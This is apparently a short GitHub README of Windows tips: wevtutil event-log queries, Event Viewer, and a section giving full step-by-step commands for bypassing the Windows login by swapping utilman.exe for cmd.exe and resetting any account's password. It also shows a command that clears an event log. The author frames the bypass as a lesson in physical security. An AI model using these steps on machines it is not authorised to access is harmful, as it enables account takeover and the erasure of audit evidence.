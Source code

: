 # security
cool tricks to securing and some how a little forensics.keep in mind that win+x in windows os opens a menu bar that you can control so many other options too.

<ul>
<li>Wevtutil</li>
<li>Event Viewer</li>
<li>Bypass windows Login </li>
</ul>

# Wevtutil
Enables you to retrieve information about event logs and publishers in powershell,cmd, and also git bash.

<ul>
<li>To see last 50 login in our device:

    wevtutil qe Security /c:50 /rd:true /f:text
  
<p>you should be administrator to run this command</p>
</li>
<li>Find the last 20 startup events in the System log:

    wevtutil query-events System /count:20 /rd:true /format:text /q:"Event[System[(EventID=12)]]"

</li>
<li>Display the status of the Application log:

    wevtutil gli Application

</li>
<li>Clear all the events from the Application log:

    wevtutil clear-log Application
    
</li>
<li>...</li>
</ul>

# Event Viewer
Event Viewer is a component of Microsoft's Windows operating system that lets administrators and users view the event logs on a local or remote machine.just type:

    eventvwr

# Recover windows without password
as you may know you can open accounts on any windows machine without any passwords by just a windwos bootable usb .this is why you should be aware of physical security.when installation go repair this pc and open command prompt and type this command.

    move c:\windows\system32\utilman.exe c:\ 

<p>c is directory that windows is installed,and maybe it is different in your pc.and then this command:</p>

    copy c:\windows\system32\cmd.exe c:\windows\system32\utilman.exe


<p>after all:</p>


    wpeutil reboot

<p>after the reboot  click on ease of use,CMD will opens then type:</p>

    net user

<p>after you saw users then the user you want to login with:</p>

    net user <desired user> <your password>

<p> you are in windows now!</p>

